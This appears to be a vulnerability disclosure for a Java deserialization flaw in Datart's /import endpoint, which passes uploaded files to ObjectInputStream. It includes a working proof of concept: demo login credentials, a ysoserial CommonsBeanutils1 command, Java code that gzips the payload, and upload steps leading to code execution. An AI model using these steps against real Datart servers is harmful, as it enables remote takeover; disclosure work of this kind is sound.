


## Title: deserialization Vulnerability in Datart  ≤ 1.0.0-rc.3

**BUG_Author:** gggggggga

**Affected Version:** Datart  ≤ 1.0.0-rc.3

**Vendor:** [Datart GitHub Repository](https://github.com/example/WebAppX)

**Software:** [Datart](https://github.com/running-elephant/datart/)

**Vulnerability Files:**

- `datart.server.service.impl.VizServiceImpl`

## Description:

1. **Deserialization Vulnerability via File Parameter:**

   - In the method `extractModel(MultipartFile file)` located in the service class, the file parameter is directly deserialized without proper validation or sanitization.
   - The method uses `ObjectInputStream` to deserialize the contents of the file, which can be controlled by an attacker. This allows an attacker to send a maliciously crafted file that, when deserialized, can execute arbitrary code on the server (leading to Remote Code Execution).
   - The vulnerability is exposed via the route `POST /import` in the `importViz` method, where the `file` parameter is passed to the `extractModel` method for processing.

2. **Exploiting the Deserialization Vulnerability:**

   - An attacker can exploit this vulnerability by uploading a specially crafted file (e.g., a serialized object) that, when deserialized, triggers the execution of malicious code.
   - The malicious file could potentially allow an attacker to execute arbitrary code, leading to Remote Code Execution (RCE) on the server.

3. **Exploit Steps:**

   **Step 1: Login**
   The attacker must first authenticate by logging in through the application’s login endpoint. For example:

   ```
   POST http://<target-ip>/login
   Username: demo
   Password: 123456
   ```

   **Step 2: Upload the Malicious File**
   Once logged in, the attacker can upload a malicious file to the `/import` endpoint, which is processed by the `importViz` method. The uploaded file is then passed to the `extractModel` method for deserialization:

   ```
   POST http://<target-ip>/import
   Content-Type: multipart/form-data
   File: [malicious file containing a serialized object]
   ```

4. **Example Malicious File:**

   The malicious file should contain a serialized object designed to exploit the deserialization vulnerability, triggering remote code execution when processed by the server.

5. **Verifying the Exploit:**

   If the deserialization is successful and the malicious file is processed, the attacker may gain control over the server and execute arbitrary code, leading to Remote Code Execution (RCE).

## Proof of Concept:

1. Access the login page of the vulnerable application:
   ```
   http://localhost:8080/login
   ```

2. Use the following credentials to attempt login:
   ```
   Username: demo
   Password: 123456
   ```

3. Use ysoserial to generate malicious serialized data:

   ```
   java -jar ysoserial.jar CommonsBeanutils1 "calc" > payload.ser
   ```

4. Use the following script to package `payload.ser` into a `payload.ser.gz` file,This Java code reads the `payload.ser` file from the specified path (`E:\\xxx\\payload.ser`), compresses it using GZIP, and writes the output to `payload.ser.gz`.:

   ```
   public class abc {
       public static void main(String[] args) throws IOException {
           try (FileInputStream fis = new 		   FileInputStream("C:\\xxx\\payload.ser");
                FileOutputStream fos = new FileOutputStream("payload.ser.gz");
                GZIPOutputStream gzipOut = new GZIPOutputStream(fos)) {
               byte[] buffer = new byte[1024];
               int len;
               while ((len = fis.read(buffer)) > 0) {
                   gzipOut.write(buffer, 0, len);
               }
           }
       }
   }
   
   ```

5. upload the evil file payload.ser.gz



Successfully executed the `calc` command, which opens the calculator.

